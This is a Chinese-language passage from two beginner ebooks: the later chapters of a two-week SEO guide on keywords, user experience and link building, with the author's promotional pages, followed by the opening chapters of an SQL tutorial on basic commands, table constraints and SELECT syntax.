如果你想为你的网站带来更多流量，你需要了解搜索引擎的工作原理，并能够优化你的网页，使其被抓取、索引并显示在搜索结果页的顶部。

就 SEO 而言，仅出现在搜索结果中是不够的。顶部结果的点击率超过 18%。你的页面在搜索引擎结果页上显示得越靠下，获得的点击次数就越少。

随着智能手机的出现，人们最初认为网站的受欢迎程度会开始下降。普通人认为应用程序会取代搜索。如果这真的会发生，到目前为止还没有显现。虽然人们在桌面电脑前花费的时间减少了，但人们仍然使用搜索来查找所需的信息和想要的物品。针对手机屏幕优化的网站将获得移动搜索的大部分流量。

### 第 1 天和第 2 天的活动：确定你的网站主题或利基

如果你的网站专注于一个主题，排名会更容易。如果你已经有一个综合信息网站或博客，你可以根据已有的热门帖子或内容来决定最佳的追求主题。

在为你的网站思考主题或利基时，你还应考虑建立它的个人目标。从此以后你创建的内容类型应让你更接近实现目标。

## 第 2 章：搜索技术的局限性

搜索引擎是在网上查找信息的最受欢迎的工具。然而，即使在搜索算法和页面抓取技术不断改进的情况下，该工具仍然存在许多局限性。例如，搜索引擎在抓取和索引网页后，无法自行直接判断该网页是否与用户相关。它需要寻找更多线索，才能知道某个页面是否应出现在某些关键词搜索结果的顶部。

作为网站管理员和搜索营销人员，你的工作是为搜索引擎提供使其将你置于顶部结果所需的线索。搜索引擎专家将这些线索称为排名因素。排名因素是搜索引擎蜘蛛到达你的网站时寻找的信息。它们在索引期间收集这些排名因素。网页在关键词搜索结果中的位置将取决于基于这些因素的排名得分的好坏。

即使考虑数百个排名因素，搜索引擎仍然存在许多局限性。

### 搜索引擎的局限性是什么？

- 爬虫机器人依赖链接来浏览

    搜索引擎爬虫的目的在于制作整个可搜索互联网的虚拟地图，指的是普通人可以访问的互联网部分。为了从一个页面跳转到另一个页面，它们使用所抓取页面中的超链接。这些数字桥梁是一个重要的排名因素。

    如果你的网站中有些页面没有链接指向它们，你应该预期它们不会被索引，也不会出现在搜索结果页面中。

- 它们无法抓取受在线表单保护的页面

    网站要求访客成为会员是很常见的。要成为会员，你需要填写会员注册表。搜索引擎没有配备填写所有类型表单的程序。正因如此，它们无法抓取网站管理员仅向会员展示的信息。


- 它们专门针对文本内容

搜索引擎爬虫专门从基于文本的网站中收集信息。它们从非文本内容中收集和组织信息的能力受到严重限制。例如，爬虫机器人无法自行判断一张图片看起来是什么样的。它们在处理视频、音频、图像、Flash和插件内容时也面临类似的挑战。

为了解决这个问题，搜索公司要求网站管理员在这些内容中包含文本信息。如果没有这些附加信息，网页中的某些类型的内容在排名时不会获得很高的权重。

- 它们需要关键词匹配

当用户使用搜索引擎时，他们通常会输入一个描述他们正在寻找的内容的短语。搜索引擎算法已经进化，它们比以往任何时候都更有能力在90%的情况下为你提供相关的网页。然而，如果用户没有使用正确的术语，他们可能会遇到一些问题。数百万用户在搜索不熟悉的东西时会使用不常见的术语。

这个限制在刚开始学习英语的人群中很常见。当他们不知道某个事物的单词时，他们可能会用形容词来描述它。英语母语者会明白他想表达什么，但搜索引擎没有相应的程序设计来理解非母语者可能在询问什么。

当我们使用搜索人工智能不熟悉的语言细微差别时，这个问题也会变得难以处理。例如，同一个单词在不同英语国家的拼写差异会影响你的搜索结果排名。例如，如果你一直用“behaviour”代替“behavior”，搜索引擎可能会认为你的网页是为英国用户设计的。这会影响你在美国用户中的排名。

搜索营销的成功在很大程度上取决于你对所使用语言的了解。例如，如果你将特定的少数群体作为你网站的目标潜在访客，你应该了解他们使用语言的细微差别。了解他们的搜索行为也会有所帮助。

- 专有名称与通用名称

由于对关键词的依赖，搜索引擎还面临着在正确上下文中解读词语的挑战。当用户使用具有多重含义的关键词时，这一挑战会变得更加困难。例如，流行文化一直在广泛使用“black”这个词。有些歌曲、电影和品牌都包含这个词。在搜索中输入这些词的人也可能指的是他们正在寻找的物品的颜色。因此，搜索引擎用户倾向于在搜索时使用更长的短语，以使结果更符合他们的需求。由于这种搜索行为，网站管理员开始瞄准长尾关键词。这些是人们通常在搜索时使用的短语。它们超过三个单词长，并且指向搜索者非常具体的需求。

搜索技术一直在不断变化。工程师们正在继续开发新形式的技术，以便AI能够绕过这些限制。正是因为这些限制，我们需要同时为用户和搜索引擎优化我们的网页。

### 第3天和第4天的活动：

你应该花时间回顾本章讨论的搜索引擎的局限性，并思考你的潜在访客通过搜索引擎访问你的网站时可能遇到的困难。

你还应该花时间检查你的网站在搜索引擎结果页面中的可见性。使用你所在行业或细分领域的通用关键词和短语。如果你在前三页中找不到你的网站，你需要做大量的工作。如果你在前三页中但不在第一页，你的目标是向上攀升。无论你处于什么位置，你都应该使用本书中的策略和信息来提高你网站的排名。

## 第 3 章：你的目标用户：搜索营销策略的起点

在为网站制定搜索营销策略时，你需要开始思考哪些人可能会在你的网站信息中发现价值。他们是最有可能在搜索结果页面看到你的网页时点击它的人。搜索引擎弥合了你的网站内容与需要它们的人之间的差距。

### 分析你的目标搜索引擎用户

互联网用户每月进行数十亿次搜索。然而，并非所有这些搜索都对你的网站有价值。寻找你网站中各类信息的人数取决于你网站所在行业或细分领域的受欢迎程度。细分领域越受欢迎，搜索者就越多。然而，受欢迎的细分领域也有很多竞争。

为了在竞争中取得领先，你需要了解你的理想访客。你可以通过为你的网站创建理想访客的画像来做到这一点。如果你已经有一个运行了一段时间的网站，你或许可以通过你使用的分析软件收集一些关于访问你网站的人群类型的信息。以下是你需要的一些关于访客的信息类型：

- 年龄
- 性别
- 语言
- 位置
- 共同兴趣

通过获取这些类型的信息，你将能够猜测人们在使用搜索引擎时最可能使用的词语。根据你拥有的网站类型，你可能还需要一些额外的信息。

### 你为访客设定的目标

在创建了理想访客的画像之后，你需要决定你希望这些人到达你的网站后做什么。如果你在网站上销售东西，你可能需要调整设计，以确保用户可以从你的已编入索引的页面开始购买。

其他网站希望访客填写表格、回答问题或注册会员。

设定目标还可以让你细化你所针对的关键词类型。例如，如果你在销售东西，你可能需要针对与购买相关的短语。一些营销人员只针对处于购买过程后期阶段的人所使用的短语。

### 第5天和第6天的活动：确定你的目标用户

下一个活动是确定你网站理想访客的特征。理想访客是指最有可能完成你希望实现的目标的人。你应该说明这些人的共同点。除了第3章中陈述的信息外，你还应该研究其他同样满足同一目标市场需求的网站。你应该查看它们的设计以及它们提供的内容类型。

## 第 4 章：选择要排名的关键词

现在你知道你的目标访客是谁了，你需要选择他们在搜索你所提供的信息时会使用的正确关键词。

要了解你的目标用户正在使用哪些关键词，你需要设身处地为他们着想。你需要利用你在已创建的画像中拥有的信息，来猜测你应该使用的正确语言类型。

你还需要提醒自己搜索引擎技术的局限性。你需要确保你的关键词代表你在页面中展示的内容类型以及你的潜在访客的意图。你的最终目标是提供潜在访客需要的东西，然后将他们转化为买家、订阅者、会员，或者至少是回访访客。

大多数初学者网站管理员认为他们应该只选择一个强关键词，并在网站的所有页面中使用它。对搜索引擎来说，这种策略看起来很像关键词堆砌。

如果你想让你的网站成为你所在主题的主要信息来源，你需要致力于在多个与网站主题相关的关键词上获得良好排名。例如，如果你的网站是关于一个电视节目的，你可能希望在网站主页上以它的标题为目标。然后你应该创建与该节目相关的帖子或页面，比如一个关于角色的页面。在这个页面中，你可以使用这个例子“[电视节目标题]角色”作为你的主要关键词。

有一些免费和付费工具可以帮助你找到某些主题下最常用的关键词。其中最受欢迎的工具之一是Google AdWords关键词规划工具。

在规划关键词时，你还应该考虑以下因素：

- 你提供的产品或服务的名称

这包括服务的通用名称和品牌。一些考虑购买某物的人通常知道他们想购买的品牌，因此你应该有直接回答关于这些品牌问题的网站内容。这些类型的内容将帮助你的网站通过搜索被发现。


- 与你的产品或服务相关的主题

你还应为与产品或服务相关的主题提供内容。例如，许多公司网站都会包含公司动态。这能体现你网站上的活跃度。最重要的排名因素之一就是更新频率。

- 季节性热门关键词

你还应针对预计会出现高销量和高流量的季节准备搜索营销活动。例如，对于零售网站来说，圣诞节、情人节和感恩节都是重要节点。在这些季节，人们往往会在网上寻找线下购买的灵感。你应利用人们在这些季节大手笔消费的习惯。

## 在构建网页时使用关键词。

每次创建博客文章或新网页时，你都需要考虑将要使用的目标关键词。你应为创建的每个页面或文章定位一个主关键词。你的关键词应与你想让访客执行的活动保持一致。如果你希望访客购买某物，你的目标就是构建一个网页，定位那些有购买意图的搜索者所使用的关键词。你也可以制作网页，定位那些正在研究特定产品的搜索者所使用的关键词。

当你知道要排名的关键词后，下一个目标就是将它们策略性地放入网页中。将这些关键词放在这些位置时，必须确保它们自然出现。你的首要目标是让内容能被人类访客理解。用户体验始终比任何 SEO 策略都更重要。考虑到这一点，你应将关键词放在网站的以下部分：

- URL 扩展名

如果你的域名已经包含你想排名的关键词，这会有所帮助。不过大多数时候，你需要将关键词插入 URL 的较后部分，以确保它包含在 URL 栏中。

- 标题标签

标题标签让爬虫了解你的页面是关于什么的。通常，你需要尽可能早地在标题标签中添加关键词。这种策略的挑战在于，当你已经计划了一个有创意的标题时。有时，把关键词放在标题标签的前部会让标题听起来很别扭。如果是这种情况，你应优先考虑用户体验。

- 页面顶部附近

你还应在内容的第一段中包含关键词。爬虫不会完整扫描长篇内容。除了标题标签，爬虫还会尝试从开头几段判断你的内容是关于什么的。这就是你需要在这些区域包含关键词的原因。

- 页面的文本内容

除了第一段，你还应在内容的不同部分添加关键词 3-4 次。在这种情况下，你可能需要为主关键词制作变体，使其听起来自然，并避免让读者觉得重复。

- 图片的 alt 属性

你还应在图片的 alt 属性中添加图片的句子或描述。这将帮助你的图片在搜索引擎的图片搜索功能中获得良好排名。你应确保只包含与内容相关的图片。你还应尝试制作独特的图片和照片。这将使你的图片在图片搜索结果页面中脱颖而出，并可能带来更高的点击率。

## 元描述

上述所有其他属性都会让网页在搜索引擎结果页面中获得更好的排名。为了让你的网页保持高排名，你需要确保看到它的人会点击进入你的页面。网页过去的点击率也是一个重要的排名因素。

有两个重要因素会提高你在搜索引擎中的点击率。第一个是内容标题，本节前面已经讨论过。第二个是标题下方的描述。大多数内容管理软件（CMS）会默认使用文本内容的第一部分作为描述。你应向你的 CMS 确认如何添加元描述，以便你可以控制搜索结果页面中标题下方显示的文本。你需要试验不同的描述版本，才能找到点击率最高的那些描述。

## 第 7 天和第 8 天活动：进行关键词研究

当你已经拥有网站和要追求的特定主题时，下一步就是找到能帮助你实现网站目标的关键词和短语。参考本章中的提示，了解关键词在 SEO 中如何运作以及如何使用它们。除了一直很受欢迎的 Google AdWords Keyword Planner，你还可以使用其他免费在线工具来为你的网站研究最佳关键词：

### Microsoft Bing Ads

这是 Bing 版的关键词规划师。如果你网站流量的很大一部分来自 Bing，你也应使用这个工具。

### Google Trends

Google Trends 为你提供世界各地人们使用的热门关键词。它还允许你查看你的国家当前和过去的热门内容。你还可以深入了解某些关键词和短语多年来的热度波动。

## 第 5 章：用户体验影响你的排名

在上一章中，我们讨论了让目标关键词与网页内容以及访客需求保持一致的重要性。

例如，如果你的网站专注于增肌健身器材，你应定位人们在网上寻找这类物品时使用的关键词。

当人们在搜索引擎结果页面点击你网页的链接时，他们会有一些期望，而你需要满足这些期望。在这个特定例子中，如果你在正确的关键词上获得排名，访客可能期望找到不同类型的负重训练工具。你也可以添加促进肌肉增长的膳食补充剂。

假设你的访客使用关键短语“增肌健身器材”来到你的网站，但到达网站后，他们发现你专注于瑜伽技巧，并且只评测瑜伽相关产品。在这种情况下，你的访客会对结果略感失望，并可能点击移动设备或浏览器中的“返回”按钮。

这是一个糟糕用户体验的例子。搜索引擎会尽量避免把人送到错误的网站。它们也会尽量避免结构不良的网站获得良好排名。为了确保只有特定主题下的最佳网站获得搜索结果页面的首位，搜索引擎算法会考虑多个排名因素。请检查你的网站是否具备以下排名因素，以获得总体良好的用户体验：

- 关键词与主题一致

首先要考虑的因素是你使用的关键词。当你的主题和主要关键词不一致时，你的网页可能会在与你所提供内容无关的关键词上获得排名。这会导致用户不满意。你甚至可能在未来的算法更新中受到惩罚。

- 入站链接质量

链接是向搜索引擎发出的信号，表明网页内容很受欢迎。这让搜索引擎认为，未来可能对此感兴趣的人在接触该内容时会有良好的用户体验。

受欢迎的网站在建立链接方面具有相当大的优势。已有更多人关注他们的内容，因此他们发布内容后，更有可能立即获得其他高质量网站的链接。

- 导航结构

你网站的导航也很重要。通常，你应确保访客从首页出发，最多点击三次就能到达所有页面。如果你在网站建设阶段没有规划好导航，你应花时间列出所有网页，并确保它们可以从首页轻松访问。

- 用户参与度

当人们在搜索引擎结果页面点击你的链接后立刻点击返回按钮时，搜索引擎会认为用户对其体验感到失望。这种情况可能由多种原因造成。例如，可能是因为某个网页加载内容太慢。也可能是因为他们发现网页内容不是自己需要的。不过，人们也可能因为不那么重要的原因点击返回。无论人们点击返回按钮的原因是什么，都会影响你页面在搜索引擎中的排名。


为了防止这种情况发生，你应该设计内容以保持用户的参与度。如果你主要使用文本内容，请写好第一段，让用户被吸引而不想点击返回。你还应该提供照片和图片，这样他们就不会只看到一片文字墙。如果页面上有视频，你需要确保它运行良好且加载迅速。最后，你应该提供指向其他有趣内容的链接，以确保访客不会在第一页后“跳出”或离开你的网站。

- 机器洞察

SEO 领域最重要的更新之一是 2011 年的熊猫更新。谷歌在其排名算法中引入了一个新部分，SEO 行业称之为机器学习。简而言之，该算法模拟了人类如何判断网站质量。当更新推出时，许多老牌网站被新兴网站超越，因为新网站的设计和整体用户体验优于老网站。黑帽 SEO 从业者是这些更新的目标；然而，一些带有少量黑帽行为的高质量网站也受到了影响。

谷歌的目标是清理搜索结果中那些构建糟糕、用户体验不尽人意的网站。只要你保持高质量的内容，并确保用户对你提供的内容感到满意，你就是安全的。通过遵循本书中的建议，你将能够避免过去一些更新的负面影响，甚至可能避免未来的一些更新。

## 第 9 – 10 天活动：根据理想访客的偏好设计你的网站

你应该确保你的网站对理想访客来说看起来很棒。你拥有的所有内容也应该满足他们的需求和愿望。最后，你应该测试你网站的导航。你需要确保通过链接将相关内容的页面连接起来。如果有人帮助你，你可以让他或她在你的网站上查找特定信息，然后请他们对你网站的导航提供反馈。

## 第 6 章：建立你的网页链接概况

搜索引擎将链接视为流行度指标。在熊猫更新之后，谷歌仍然认为链接有价值，但在将其作为排名因素时变得更加严格。

### 搜索引擎如何使用链接：

#### 确保你的链接与你的主要内容相关

指向你网站的链接类型应取决于你提供的内容类型。例如，如果你提供名人新闻，那么发布你链接的网站也应与名人相关。这包括名人博客、论坛和其他名人新闻网站。

你还应考虑网站的本地性。如果你的网站面向特定城市的人群，那么来自与该城市相关的网站的链接将比来自提供通用信息的网站的链接更有权重。

#### 热门网站权重更高。

在寻找链接来源时，你还应考虑网站的受欢迎程度。来自《纽约时报》网站的链接将比你朋友博客的链接更有权重。搜索引擎认为这些类型的网站值得信赖。来自垃圾网站的链接对你的网页弊大于利。

### 使用锚文本时务必小心。

在链接结构中，最重要的考虑因素是锚文本。这是链接代码中用户可阅读和点击的部分。指向你网站的链接锚文本也应与你的主题相关。但是，你应该确保指向你网页的锚文本看起来自然。如果它们都使用相同的锚文本，谷歌可能会认为你在操纵系统或使用黑帽方法建立链接。

### 随时间缓慢构建链接。

如果你的网站是新的，但你已经拥有数百个链接，搜索引擎也可能会认为你在使用这些方法。为了避免这种情况，你应该确保你聘请的 SEO 公司或专业人士不会不加选择地建立指向你网站的链接。

### 链接的价值会随着时间推移而降低。

业余营销人员还认为，只要链接存在，其质量就保持不变。然而，谷歌已将内容的新鲜度作为排名的重要因素。随着链接到你的网站变得不那么受欢迎，你的排名也会下降。为了防止这种情况发生，你应该定期制作有助于你链接概况的内容。

## 第 11 - 13 天活动：

建立网站的链接概况需要花费大量时间，但采取这些步骤将帮助你启动这一过程。你的第一个任务是找到与你网站类似的网站所有者。他们不应提供垃圾内容，并且他们应由信誉良好的公司或在线营销人员管理。

下一步是收集这些网站所有者的联系信息，并开始与他们沟通。做到这一点的最佳方法之一是在他们的网站上提供客座文章。大多数站长会欢迎在他们的网站上获得免费内容的机会。他们会在允许发布之前审查你的内容，因此你需要确保内容质量高。你需要 2 天时间创建一篇经过充分研究且出色的内容，并用 1 天时间开始发送电子邮件。

在第 14 天，你应该回顾排名的提升情况，以及还可以采取哪些其他措施来进一步改进。

## 结论

再次感谢你下载本书！

我希望这本书能够帮助你学习 SEO 并提高你在搜索引擎结果页面上的排名。

下一步是继续学习和实施 SEO 的最佳实践。这个行业仍在发展。你需要随时了解最新的更新，以保持你的网站在排名中的竞争力。

最后，如果你喜欢这本书，我想请你帮个忙，你愿意在亚马逊上为这本书留下评论吗？我将不胜感激！

点击此处，在亚马逊上为这本书留下评论！

另外，请务必订阅我的技术和编程通讯，获取你的免费书籍，并了解更多关于编程的知识。点击此处。

谢谢，祝你好运！

点击此处获取使用 Bluehost 设置 Wordpress 网站的分步说明。

## 额外福利：从我这里获得更多免费书籍！

感谢阅读我的书！我希望你从中获得了极好的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你真的想改变你的编程技能，你将得到的一切都会对你有用。我将提供：

- 更多我写的书
- 我如何以创纪录的速度学会编程
- 有关我最喜欢的编程相关产品的信息
- 以及更多！

[点击此处获取所有这些信息！](link)

如果你还没有，请务必查看我的新网站 [KindleBookSpot.com](KindleBookSpot.com)。这是一个我一直在努力的新项目，我真心希望它对读者有价值。我创建这个网站是因为我想让你们更容易找到折扣价的最热门 Kindle 书籍，所有内容集中在一个地方。以下是我网站的一些详细信息：

- 畅销免费 Kindle 书籍列表
- 打折的小说和非小说类书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新兴作者在成为畅销书作者之前推广他们新书的地方。所以如果你想推广自己的书，请查看我的网站 [KindleBookSpot.com](KindleBookSpot.com)。

我希望这个网站对你有用，希望在那里见到你！

***[订阅我们在 KindleBookSpot 不断壮大的社区，以便在最佳书籍打折和免费时接收通知。](KindleBookSpot)***


# SQL 训练营

## 在 2 周内学习 SQL 编程基础

*更多免费和特价书籍，请访问 [KindleBookSpot.com](http://KindleBookSpot.com)*

## 目录

- 引言
- 第 1 章：SQL – 基本信息
- 第 2 章 – 关系数据库管理系统的基本概念
- 第 3 章：SQL 语句的语法
- 第 4 章：SQL 中的不同数据类型
- 第 5 章：SQL 语言中的运算符
- 第 6 章：SQL 表达式
- 第 7 章：如何在数据库中使用 SQL
- 第 8 章：如何使用 SQL 合并记录
- 结论

## 引言

我要感谢并祝贺你下载了“*在 2 周内学习 SQL 编程基础*”这本书。

本书包含经过验证的步骤和策略，可帮助你快速、有效地学习 SQL 编程语言。

这本电子书将教你 SQL 的基础知识，SQL 是一种用于关系数据库的强大计算机语言。由于这是一本短书，它聚焦于 SQL 最重要的方面。它解释了该语言的基础知识、数据库系统的特征、可以使用的命令，以及可以应用于数据库的约束。基本上，你在本书中读到的所有内容都旨在帮助你在两周内学会 SQL。本书没有任何无关信息。

如果你想成为一名熟练的 SQL 用户，这就是你需要的书。请仔细阅读这份材料，并分析其中包含的语法。这样，你一定能掌握 SQL 计算机语言的基础。

再次感谢你下载本书，希望你喜欢它！

## 开始之前…… 额外福利：获取我提供的更多免费书籍！

感谢阅读我的书！希望你能从中获得巨大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你真心想改变自己的编程技能，你获得的一切都会对你有用。我将提供：

- 更多由我编写的书籍
- 我如何能在创纪录的时间内学会编程
- 关于我最喜欢的编程相关产品的信息
- 以及更多内容！

**[点击此处获取所有这些信息！]**

## 第 1 章：SQL – 基本信息

本书提供独特的教学方法：它将帮助你在 2 周内学习 SQL 编程语言的基础知识。此外，它还提供了示例，可帮助你立即掌握这门语言。

基本上，SQL 是一种用于数据库的计算机语言。它涉及数据行、列修改和数据库生成。

### SQL - 结构化查询语言

SQL 是一种语言，你可以用它来存储、操作和检索存储在关系数据库中的信息。

它被视为 RDBMS（即关系数据库系统）的标准计算机语言。MySQL、Oracle、Informix、Sybase 和 MS Access 等现代数据库系统都将 SQL 作为其标准语言。

### SQL 提供的主要优势

SQL 允许你执行以下操作：

- 访问关系数据库系统中的信息。
- 为你将存储的信息添加描述。
- 定义和操作存储在数据库中的数据。
- 通过其内置库、预编译器和模块使用其他语言。
- 生成和删除表与数据库。
- 在数据库中生成、查看和存储函数。
- 为你的表和数据库对象分配访问权限。

### SQL 如何工作？

每当你在关系数据库管理系统上运行 SQL 命令时，系统都会确定处理你的请求的理想方式。然后，SQL 引擎将解释所涉及的活动。

上述过程涉及不同组件。这些组件是：优化引擎、查询调度器、SQL 查询引擎和经典查询引擎。下图展示了 SQL 进程的基本架构：



### 你可以在 SQL 中使用的命令

本书的这一部分将解释基本的 SQL 命令。请仔细学习这份材料，因为它可以帮助你在 2 周内学会 SQL。

根据专家程序员的说法，SQL 中的标准命令是 SELECT、CREATE、UPDATE、DROP、DELETE 和 INSERT。让我们根据它们的行为对这些命令进行分类：

#### 数据定义语言（也称为 DDL）

- CREATE – 在数据库中生成新对象或表。
- ALTER – 编辑数据库中的现有对象。
- DROP – 删除数据库对象。

#### 数据操纵语言（也称为 DML）

- INSERT – 在数据库中生成新记录。
- UPDATE – 编辑数据库中的现有记录。
- DELETE – 删除现有数据库记录。

#### 数据控制语言（也称为 DCL）

- GRANT – 允许你向某些数据库用户授予访问权限。
- REVOKE – 允许你收回某些用户的访问权限。

#### 数据查询语言（也称为 DQL）

- SELECT – 允许你从数据库中检索记录。

## 第 2 章 – 关系数据库管理系统的基本概念

SQL 是一种可用于与关系数据库管理系统交互的语言。因此，你也应该了解这些数据库系统的基本特征。本章将解释 RDBMS 的基础知识，以便你能在 14 天内成功学会 SQL。

### 什么是数据库表？

在 RDBMS 中，信息保存在称为“表”的数据库对象中。表是一组相关的数据库条目，由行和列组成。

你应该知道，表是关系数据库系统中最基本、最常见的信息存储形式。下面是一个数据库表的示例：

| ID | 姓名 | 性别 | 州 |
|---|---|---|---|
| 1 | 约翰 | 男 | 纽约 |
| 2 | 马克 | 男 | 佛罗里达 |
| 3 | 克里斯蒂安 | 男 | 得克萨斯 |
| 4 | 保罗 | 男 | 伊利诺伊 |
| 5 | 詹姆斯 | 男 | 内华达 |
| 6 | 彼得 | 男 | 阿肯色 |
| 7 | 西蒙 | 男 | 弗吉尼亚 |

#### 字段

每个数据库表都包含称为“字段”的较小部分。在上面的示例中，字段是：ID、性别、姓名和州。

字段是表中的列，用于保留每条数据库记录的特定信息。

#### 行

行也称为“数据记录”，是存储在表中的单条数据库条目。例如，上面显示的表有七条记录。下面是一条示例记录：

| ID | 姓名 | 性别 | 州 |
|---|---|---|---|
| 1 | 约翰 | 男 | 纽约 |

基本上，记录是表中的水平实体。

#### 列

列是表中的垂直实体。它们包含与特定字段相关的信息。例如，ID 是上面示例中的列之一。它表示所列人员的标识号。

| ID |
| --- |
| 1 |
| 2 |
| 3 |
| 4 |
| 5 |
| 6 |
| 7 |

#### 空值

数据库表中的空值是空白的。这意味着包含“NULL”的字段是空的。

你应该记住，NULL 值不同于零和“空格”（即按下空格键后得到的字符）。当数据库用户在创建表期间未输入任何值时，字段就会获得 NULL。

### SQL 中的约束

在 SQL 中，约束是应用于特定数据列的规则。它用于限制可以存储在表中的信息类型。基本上，约束有助于确保数据库的可靠性和准确性。

你可以在表级或列级应用约束。因此，你可以对特定列或整个表应用约束。

以下是 SQL 编程语言中一些常用的约束：

- UNIQUE – 此约束可防止所选列中的数据冗余。例如，你可能需要防止所列用户拥有相同的标识号。分析以下示例：

    ```
    CREATE TABLE CUSTOMERS(
      ID INT NOT NULL,
      NAME VARCHAR(20) NOT NULL,
      AGE INT NOT NULL UNIQUE,
      ADDRESS CHAR(25),
      SALARY DECIMAL(18, 2),
      PRIMARY KEY (ID)
    );
    ```

    此代码创建一个名为 CUSTOMERS 的表，并将其分为五列。UNIQUE 约束应用于 AGE 列，因此你不能输入两个或更多年龄相同的客户。

    如果要将此约束应用于现有列，可以使用以下语法：

    ```
    ALTER TABLE (insert name of table here)
        MODIFY (insert name of column) (specify the value type) NOT NULL UNIQUE;
    ```

- DEFAULT – 此约束允许你设置默认数据。但是，只有当 INSERT INTO（另一条 SQL 语句）没有特定的

值。这里有一个示例：

```sql
CREATE TABLE CUSTOMERS(
    ID INT            NOT NULL,
    NAME VARCHAR (20) NOT NULL,
    AGE INT           NOT NULL,
    ADDRESS CHAR (25),
    SALARY DECIMAL (18, 2) DEFAULT 5000.00,
    PRIMARY KEY (ID)
);
```

这段代码生成了一个名为 CUSTOMERS 的表并将其分为 5 列。正如你所见，“ 5000.00 ” 被标记为薪资列的默认值。这意味着如果使用 INSERT INTO 命令无法添加任何值，该列将自动接收 5000.00。

要删除此约束，您可以使用以下语法：

*ALTER TABLE（在此处插入表名）*

```sql
ALTER COLUMN (insert name of column here) DROP DEFAULT;
```

- NOT NULL – 列可以包含 NULL 值。但是，如果您不希望某些列中存在 NULL 值，则可以使用此约束。此约束将阻止系统在您指定的列中输入 NULL 值。

重要提示：NULL 值表示未知信息。因此，它们与“ 无信息。 ” 不同。

下面的屏幕截图向您展示了如何使用 SQL 应用 NOT NULL 约束：

```sql
CREATE TABLE CUSTOMERS(
    ID INT            NOT NULL,
    NAME VARCHAR (20) NOT NULL,
    AGE INT           NOT NULL,
    ADDRESS CHAR (25),
    SALARY DECIMAL (18, 2),
    PRIMARY KEY (ID)
);
```

上面的代码生成了一个名为 CUSTOMERS 的表并创建了 5 列。由于 NOT NULL 约束已应用于它们，因此您无法在 ID、AGE 和 NAME 中输入 NULL 值。

要对现有列应用 NOT NULL，请使用以下语法：

```sql
ALTER TABLE (name of table here)

    MODIFY (name of column) (specify value type) NOT NULL;
```

- CHECK – 此约束可以检查您存储到表中的值。如果指定的条件给出“ 假，”，您将无法向记录中添加值。请分析下面的代码：

```sql
CREATE TABLE CUSTOMERS(
    ID INT NOT NULL,
    NAME VARCHAR (20) NOT NULL,
    AGE INT NOT NULL CHECK (AGE >= 18),
    ADDRESS CHAR (25),
    SALARY DECIMAL (18, 2),
    PRIMARY KEY (ID)
);
```

该代码创建了一个名为 CUSTOMERS 的表并将其分为五列。CHECK 约束应用于 AGE。根据其条件（即 >= 18），您将无法添加年龄低于 18 岁的客户。

要将此约束应用于现有表，您应使用以下语法：

```sql
ALTER TABLE (name of table you want to edit)

    MODIFY (name of column you want to use) (specify the value type) NOT NULL CHECK (name of column and the condition you want to apply);
```

- INDEX – 您应该使用此约束快速生成或检索数据。创建索引时，您可以选择单个列或一组列。活动索引在整理信息之前为每一行接收一个 ROWID。

良好的索引对于提高数据库的可靠性和性能是必要的。但是，在创建索引时您应格外小心。您应该选择在运行数据库搜索时使用的字段。下面的 SQL 语句创建了一个名为 CUSTOMERS 的表并将其分为 5 列：

```sql
CREATE TABLE CUSTOMERS(
    ID INT          NOT NULL,
    NAME VARCHAR (20)  NOT NULL,
    AGE INT         NOT NULL,
    ADDRESS CHAR (25) ,
    SALARY DECIMAL (18, 2),
    PRIMARY KEY (ID)
);
```

- Primary Key – 这是标识表中每个记录的字段。创建主键时，您可以使用单个字段或组合多个字段。涉及多个字段的键称为“ 复合键。 ”主键必须保存唯一值（即它们不会接受重复或 NULL 值）。

- 如何在创建新表时分配主键 - 在新表中定义主键时使用以下语法：

```sql
CREATE TABLE CUSTOMERS(
    ID INT          NOT NULL,
    NAME VARCHAR (20)  NOT NULL,
    AGE INT         NOT NULL,
    ADDRESS CHAR (25) ,
    SALARY DECIMAL (18, 2),
    PRIMARY KEY (ID)
);
```

- 如何为现有表分配主键 – 您应使用的语法如下：

*ALTER TABLE（在此处插入表名）ADD PRIMARY KEY（在此处指定列名）；*

重要提示：如果您将列指定为主键，您必须确保它不会接受 NULL 值。

- 如何删除主键 - 要禁用主键，您应使用以下语法：

*ALTER TABLE（表名）DROP PRIMARY KEY；*

- Foreign Key – 此键允许您链接数据表。因此，一些程序员将外键称为“ 引用键。 ”

外键是其值与另一表的主键相同的列。这意味着一个表的主键必须与不同表的外键匹配。

为了帮助您理解这一概念，让我们使用两个示例表：CUSTOMERS 和 ORDERS。

CUSTOMERS 表：

```sql
CREATE TABLE CUSTOMERS(
    ID INT NOT NULL,
    NAME VARCHAR (20) NOT NULL,
    AGE INT NOT NULL,
    ADDRESS CHAR (25) ,
    SALARY DECIMAL (18, 2),
    PRIMARY KEY (ID)
);
```

ORDERS 表：

```sql
CREATE TABLE ORDERS (
    ID INT NOT NULL,
    DATE DATETIME,
    CUSTOMER_ID INT references CUSTOMERS(ID),
    AMOUNT double,
    PRIMARY KEY (ID)
);
```

如果您想在现有表上分配外键，您应使用以下语法：

*ALTER TABLE（在此处插入表名）*

*ADD FOREIGN KEY（指定要用作外键的列）REFERENCES（要用作引用的表名）（第二个表的主键名）；*

## 第 3 章：SQL 语句的语法

SQL 语言使用一组独特的规则，称为“ 语法。”本章将教您 SQL 中使用的基本语法。请仔细学习本材料，因为它将帮助您在 2 周内掌握这种计算机语言。

每个 SQL 命令都以以下关键字之一开头：USE、DROP、SHOW、ALTER、UPDATE、INSERT、SELECT、DELETE 或 CREATE。此外，每个命令都以分号结束。

您应该知道 SQL 语句不区分大小写。这意味着在 SQL 命令中，DELETE 和 delete 是相同的。但是，如果您使用的是 MySQL，则应按数据库中显示的方式输入名称。

### 基本 SQL 命令的语法

### SELECT 语句

```sql
SELECT column1, column2....columnN
FROM   table_name;
```

此语句具有以下子句：

- DISTINCT 子句 –

```sql
SELECT DISTINCT column1, column2....columnN
FROM   table_name;
```

